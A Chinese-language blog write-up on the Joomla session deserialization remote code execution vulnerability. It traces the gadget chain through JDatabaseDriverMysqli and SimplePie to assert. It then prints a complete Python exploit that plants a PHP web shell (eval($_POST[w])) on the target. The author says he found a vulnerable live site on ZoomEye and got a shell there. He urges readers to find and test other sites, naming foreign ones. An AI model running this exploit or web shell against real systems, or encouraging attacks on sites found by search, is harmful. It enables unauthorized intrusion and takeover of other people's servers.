 ##<center>Joomla 反序列化命令执行漏洞分析</center>
------
>Author fengxuan


libraries/joomla/session/session.php


    if (isset($_SERVER['HTTP_X_FORWARDED_FOR']))   #漏洞点
        {
            $this->set('session.client.forwarded', $_SERVER['HTTP_X_FORWARDED_FOR']);
        }

        ........

        // Check for clients browser
        if (in_array('fix_browser', $this->_security) && isset($_SERVER['HTTP_USER_AGENT']))
        {
            $browser = $this->get('session.client.browser');

            if ($browser === null)
            {   #未过滤直接赋值
                $this->set('session.client.browser', $_SERVER['HTTP_USER_AGENT']);  
            }
            elseif ($_SERVER['HTTP_USER_AGENT'] !== $browser)
            {
                // @todo remove code: $this->_state = 'error';
                // @todo remove code: return false;
            }
        }


/libraries/vendor/joomla/session/Joomla/Session/Storage.php

Joomla使用在JSessionStorage抽象类中用session_set_save_handler函数自定义了用户会话存储。

    abstract class JSessionStorage
	{
	......
    public function register()
    {
        // Use this object as the session handler
        session_set_save_handler(
            array($this, 'open'), array($this, 'close'), array($this, 'read'), array($this, 'write'),
            array($this, 'destroy'), array($this, 'gc')
        );
    }
    

在/libraries/joomla/session/storage/database.php中

`class JSessionStorageDatabase extends JSessionStorage`

类JSessionStorageDatabase继承了JSessionStorage并重写了session存储的方法

		public function write($id, $data)
	{
		// Get the database connection object and verify its connected.
		$db = JFactory::getDbo();

		$data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
		print_r($data);  //调试一下 打印存储的信息
		try
		{
			$query = $db->getQuery(true)
				->update($db->quoteName('#__session'))
				->set($db->quoteName('data') . ' = ' . $db->quote($data))
				->set($db->quoteName('time') . ' = ' . $db->quote((int) time()))
				->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

			// Try to update the session data in the database table.
			$db->setQuery($query);

			if (!$db->execute())
			{
				return false;
			}
			/* Since $db->execute did not throw an exception, so the query was successful.
			Either the data changed, or the data was identical.
			In either case we are done.
			*/
			return true;
		}
![fuzz1](./joomla/1.png)

而read方法则会从数据库中提取这些信息然后自动反序列化

因为在joomla中有autoload()类似功能,所以我们实例化一个类之后，会自动把类所在的文件包含进来。

phith0n 在其漏洞分析http://drops.wooyun.org/papers/11330  的时候找到了`JDatabaseDriverMysqli`	这个类, 这个类的析构函数调用了disconnect()这个函数

		public function disconnect()
	{
		// Close the connection.
		if ($this->connection)
		{
			foreach ($this->disconnectHandlers as $h)
			{
				call_user_func_array($h/* "init" */, array( &$this));
			}

			mysqli_close($this->connection);
		}

		$this->connection = null;
	}


使用了call_user_func_array()这个函数，这个会调用用户自定义的函数或者方法对第二个参数执行,但是这里第二个参数不可控，于是又找到了`SimplePie`这个类，这个类的有一个方法 

		function init(){
		.....
		if ($this->cache && $parsed_feed_url['scheme'] !== '')
				{
					$cache = call_user_func(array($this->cache_class, 'create'),
					 $this->cache_location, call_user_func($this->cache_name_function/* "assert" */, $this->feed_url), 'spc');
				}

这里使用了call_user_func函数，我们可以对第二个call_user_func函数完全控制。于是poc如phith0n写的那样

	class JSimplepieFactory{
	}

	class JDatabaseDirverMysql{

	}

	class SimplePie {
	public $sanitize;
	public $cache;
	public $cache_name_function;
	public $feed_url;

	function __construct(){
		$this->feed_url = "phpinfo();JFactory::getConfig();exit;";
		$this->javascript = 9999;
		$this->cache_name_function = "assert";
		$this->sanitize = new JDatabaseDirverMysql();
		$this->cache = true;
	}
	}


	class JDatabaseDirverMysqli {
	protected $a;
	protected $disconnectHandlers;
	function __construct() {
		$this->a = new JSimplepieFactory();
		$x = new SimplePie();
		$this->connection = 1;
		$this->disconnectHandlers = [
			[$x, 'init'],
		];
	}
	}

	$t = new JDatabaseDirverMysqli();
	echo serialize($t);

![poc](./joomla/2.jpg)

生成的代码在用" | " 号连接，为什么用" | "，可以参见
<a href="https://github.com/80vul/phpcodz/blob/master/research/pch-013.md">https://github.com/80vul/phpcodz/blob/master/research/pch-013.md</a>的两个例子。

但是本来是没有用的，无法截断。幸好在数据库为utf-8编码的时候，一个字符大小为3个字节，超过的话将会舍弃，而我们可以利用这点来进行截断。可以参考<a href="http://xteam.baidu.com/?p=177">http://xteam.baidu.com/?p=177</a>


根据edb上写的poc(不是我懒，而是那个截断字符在burpsuite上怎么也复制不下开，试了好多次.....)

	 
	import requests #  easy_install requests
	import sys
 
	def get_url(url, user_agent):
 
    	headers = {
    'User-Agent': user_agent
    }
    cookies = requests.get(url,headers=headers).cookies
    for _ in range(3):
        response = requests.get(url, headers=headers,cookies=cookies)    
    return response.content
   
	def php_str_noquotes(data):
    "Convert string to chr(xx).chr(xx) for use in php"
    encoded = ""
    for char in data:
        encoded += "chr({0}).".format(ord(char))
 
    return encoded[:-1]
 
 
	def generate_payload(php_payload):
    
    php_payload = "eval({0})".format(php_str_noquotes(php_payload))
    terminate = '\xf0\xfd\xfd\xfd';
    exploit_template = r'''}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";'''
    injected_payload = "{};JFactory::getConfig();exit".format(php_payload)    
    exploit_template += r'''s:{0}:"{1}"'''.format(str(len(injected_payload)), injected_payload)
    exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}''' + terminate
 
    return exploit_template
    
 

	pl = generate_payload("file_put_contents('C:\\xampp\\htdocs\\unvvietnam\\xxx.php', '<?php phpinfo();eval($_POST[w]);?>');")
 
	print get_url(sys.argv[1], pl)
	
	
我直接在zoomeye上搜了一个，然后测试了下就中了.....  当然PHP代码和路径看情况而定

![phpinfo](./joomla/3.png)
shell
![phpinfo](./joomla/4.jpg)


大家自己去zoomeye找测试一下吧，现在估计还挺多的....
(我测试的是国外的，大家不要搞国内的....)

